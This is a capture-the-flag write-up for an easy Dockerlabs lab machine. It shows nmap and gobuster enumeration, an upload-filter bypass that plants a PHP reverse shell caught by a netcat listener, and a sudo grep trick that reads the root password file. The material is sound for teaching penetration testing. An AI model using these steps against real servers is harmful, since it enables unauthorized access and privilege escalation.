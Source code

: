 # Dockerlabs Machine

**Level:** Easy

**Author:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

------------------
## Scanning & Enumeration 

We perform a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Next, we use **nmap**'s default scripts to gather more information about the discovered ports:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
```

We access the website to inspect its content:

![image](https://github.com/user-attachments/assets/b843c726-78b8-4d8f-8292-0f0adbe4572b)

After reviewing the page code and interacting with it, we did not find any relevant information.

We perform **fuzzing** using **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x html,php,txt,js -b '' -s 200,301
---------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
```

We discover the **machine.php** and **upload.php** files, as well as the **uploads** directory.

--------------
## Explotation

Upon reviewing the **machine.php** page, we realize that the form allows file uploads:

![image](https://github.com/user-attachments/assets/6a23ecd1-fdf2-46c0-8566-2e97b447704f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and save it as a **PHP** file. 

Note that we set the **172.17.0.1** as the **IP** and **4444** as the **PORT** for the listener.

We try to upload the file and discover the server is restricting uploads to **zip** files

![image](https://github.com/user-attachments/assets/66e941d2-aeeb-40e6-99bc-e5ac58ed30c6)

Next, we capture the request with [Burp Suite](https://portswigger.net/burp/communitydownload) **Proxy** and perform a new **fuzzing** test using **Intruder** to identify additional allowed **PHP** extensions.

![image](https://github.com/user-attachments/assets/542229d9-2438-45ee-bf33-6bcec04b7608)

![image](https://github.com/user-attachments/assets/fa80e0e7-84bc-4a65-a3e7-3749bacc01df)

![image](https://github.com/user-attachments/assets/143d5370-a248-4019-9489-8fa2504f8403)

![image](https://github.com/user-attachments/assets/d8fce90b-0d49-4719-bb81-e1c3698e3c87)

We start a **listener** for the reverse shell using **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Next, we execute the **reverse shell** file to gain a shell on the victim's machine.

Note that the uploaded files are located in the **uploads** directory.

![image](https://github.com/user-attachments/assets/33c4d87b-80ef-4126-963a-3ae00cc82588)

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 48346
Linux 8b47fc7b6b14 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 x86_64 x86_64 GNU/Linux
 22:41:59 up 12:39,  0 user,  load average: 0.10, 0.12, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8b47fc7b6b14:/$
```
------------------------------
### TTY configuration

We configure the **TTY** for comfortable operation on the console:

```shell
script /dev/null -c bash 
```
After pressing **Ctrl  +  Z**, execute:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

Adjust **rows** and **columns** to match the attacker's screen dimensions:

```shell
stty size
```

Now you can use **Ctrl+L** to clear the screen and **Ctrl+C** as needed.


------------------------------
## Privileges escalation

We use **sudo -l** to check if we can execute anything as `root`:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 8b47fc7b6b14:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

We can run `cut` and `grep` as `root` using [GTFOBins for cut](https://gtfobins.github.io/gtfobins/cut/#sudo) or [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo).

Note that these binaries do not allow privilege escalation, but they can be used to access a restricted file.

We review the system directories `opt` and `etc` to try to find any interesting files.

```shell
ls /etc/
------------------------------------------------
adduser.conf            cron.daily      gai.conf   init.d         localtime    nsswitch.conf  profile.d  resolv.conf  ssl                sysctl.d
alternatives            debconf.conf    gnutls     issue          login.defs   opt            protocols  rmt          subgid             systemd
apache2                 debian_version  group      issue.net      logrotate.d  os-release     rc0.d      rpc          subgid-            terminfo
apt                     default         group-     kernel         lsb-release  pam.conf       rc1.d      security     subuid             timezone
bash.bashrc             deluser.conf    gshadow    ld.so.cache    machine-id   pam.d          rc2.d      selinux      subuid-            ucf.conf
bindresvport.blacklist  dpkg            gshadow-   ld.so.conf     mime.types   passwd         rc3.d      services     sudo.conf          ufw
ca-certificates         e2scrub.conf    gss        ld.so.conf.d   mke2fs.conf  passwd-        rc4.d      shadow       sudo_logsrvd.conf  update-motd.d
ca-certificates.conf    environment     host.conf  ldap           mtab         perl           rc5.d      shadow-      sudoers            xattr.conf
cloud                   ethertypes      hostname   legal          nanorc       php            rc6.d      shells       sudoers.d
cron.d                  fstab           hosts      libaudit.conf  networks     profile        rcS.d      skel         sysctl.conf
```

```shell
ls /opt/
------------------------------------------------
nota.txt
```

We discovered a file named **nota.txt** located in the **opt** directory.

```shell
cat /opt/nota.txt
------------------------------------------------
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Next, we try to access the contents of the **clave.txt** file, but, it is restricted.

```shell
cat /root/clave.txt
------------------------------------------------
cat: /root/clave.txt: Permission denied
```

We then use the [GTFOBins for grep](https://gtfobins.github.io/gtfobins/grep/#sudo) to access the restricted file.

```shell
LFILE=/root/clave.txt
sudo grep '' $LFILE
```

We obtain the **root** password and proceed to authenticate as **root** using **su**

```shell
su root
```

```shell
whoami
----------------
root
```
